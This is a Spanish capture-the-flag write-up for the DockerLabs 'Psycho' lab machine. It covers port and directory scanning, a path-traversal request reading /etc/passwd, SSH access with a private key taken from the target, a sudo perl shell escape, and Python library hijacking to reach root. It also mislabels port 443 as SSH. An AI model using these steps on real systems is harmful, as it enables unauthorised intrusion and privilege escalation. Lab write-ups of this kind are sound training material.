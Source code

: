 ```yaml
---
title: Psycho - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Luisillo_o        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/888c203f-5522-4340-9847-38664a9dc274)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `443` (SSH)
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/5bf9f49e-b483-4cd0-880b-17236fe8e859)

# Exploración Web
Al navegar en el puerto `80`, encontramos una pagina sin nada a simple vista.

![image](https://github.com/user-attachments/assets/83cf862a-c0ca-41e2-88b7-297c3501e3aa)

Mirando en el codigo fuente vemos que al final hay un mensaje de error.

![image](https://github.com/user-attachments/assets/6cdd9f18-54ae-4399-909f-9b2ea5582cc9)


Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/b42ca931-2127-4cf6-a4fb-c28fe06ac768)

Recordemos que nos imprimía un error, también durante el escaneo observamos que él el `index` es un archivo .PHP así que podemos suponer que está llamando algo de manera incorrecta.

```bash
wfuzz -c -t 200 --hl 62 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/index.php?FUZZ=../../../../../../../etc/passwd"
```

![image](https://github.com/user-attachments/assets/d30e5fd8-195e-4b97-92d3-e684bece6979)

Podemos observar que el parámetro es `secret`.

![image](https://github.com/user-attachments/assets/ca756007-a9a8-413d-84ac-daf11ef8a92d)

Si vemos hay dos usuarios `luisillo` y `vaxei` y el puerto ssh esta abierto por lo que podemos acceder obteniendo el `id_rsa` de alguno de los dos .

Al parecer `luisillo` no tiene.

![image](https://github.com/user-attachments/assets/b42d2714-9f89-49f9-b085-af2c0059c794)

Pero el usuario `vaxei` si tiene. Asi que accederemos con el.

![image](https://github.com/user-attachments/assets/0ad059d8-a5c3-493d-9e2d-1fa93a1ddbf6)

# Intrusion usuario vaxei.

Copiamos el contenido del archivo `id_rsa` en nuestra máquina y le damos permisos adecuados antes de conectarnos:

```bash
chmod 600 id_rsa
ssh -i id_rsa vaxei@172.17.0.2                      
```
Esto nos da acceso al sistema como el usuario `vaxei`.

![image](https://github.com/user-attachments/assets/1c152490-beb1-40cf-ad7b-0a97260e0a0d)

# Intrusion luisillo

Al ejecutar `sudo -l`, notamos que `vaxei` tiene permisos para ejecutar `perl` como `luisillo`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
```

Ya tenemos acceso como `luisillo`.

Al ejecutar `sudo -l`, notamos que `luisillo` tiene permisos para ejecutar `python3` como `root` en `/opt/paw.py`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/8160bd9d-7ae4-496c-92bb-5bcfab050343)

Viendo el contenido cabe la posibilidad de que seamos capaces de realizar un Library Hijacking creando un archivo llamado `subprocess.py` que ejecute los comandos que nosotros queramos al ejecutar este script como sudo, vamos a intentarlo.

![image](https://github.com/user-attachments/assets/837228d8-61df-49ec-89ae-fdc8f4adc039)

Volvemos a ejecutar el script y vemos los permisos de /bin/bash/

![image](https://github.com/user-attachments/assets/e19a273f-24b6-4aaf-9b2f-2b52f370271b)

Vemos que podemos ejecutar la bash como root.

```bash
/bin/bash -p
```

![image](https://github.com/user-attachments/assets/72ecf585-4fd8-4c80-bebb-238720e97df1)

Ya somo root.



